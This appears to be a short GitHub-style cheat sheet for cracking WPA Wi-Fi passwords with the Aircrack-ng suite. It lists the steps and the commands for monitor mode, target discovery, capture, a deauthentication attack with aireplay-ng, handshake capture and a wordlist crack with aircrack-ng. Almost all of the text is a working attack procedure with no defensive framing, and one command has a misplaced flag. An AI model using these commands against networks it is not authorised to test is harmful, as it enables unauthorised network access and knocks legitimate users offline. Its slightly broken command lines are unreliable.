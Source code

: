 ## Tool: Aircrack-ng suite

## Steps:

#### 1) Place = Place wireless card into monitor mode

#### 2) Discover = Discover information about network (Channel, BSSID)

#### 3) Select = Select and capture data

#### 4) Perform = Perform deauth attack

#### 5) Capture = Capture WPA handshake

#### 6) Attempt = Attempt to crack the handshake

## Commands:

#### 1) 

    iwconfig

#### 2) 

    airmon-ng check kill 
    
  (Kill processes that might interfere)

#### 3) 

    airmon-ng start WIRELESS_INTERFACE 
  
  (example: wlan0)

#### 4) 

    airodump-ng WIRELESS_INRERFACEmon 
    
  (wlan0mon) (Monitor for traffic and search for an access point to target)

#### 5) 

    airodump-ng -c CHANNEL --bssid BSSID -w CAPTURE_FILE -w WIRELESS_INTERFACEmon (wlan0mon)

#### 6) 

    aireplay-ng -0 NUM -a MAC_ADDRESS_OF_ACCESS_POINT -c STATION_NUMBER WIRELESS_INTERFACEmon 
  (wlan0mon) (Deauth Attack, NUM means how many times will this attack be performed)

#### 7) 

    aircrack-ng -w WORDLIST.TXT -b BSSID CAPTURE_FILE 
    
  (Crack WPA Handshake)
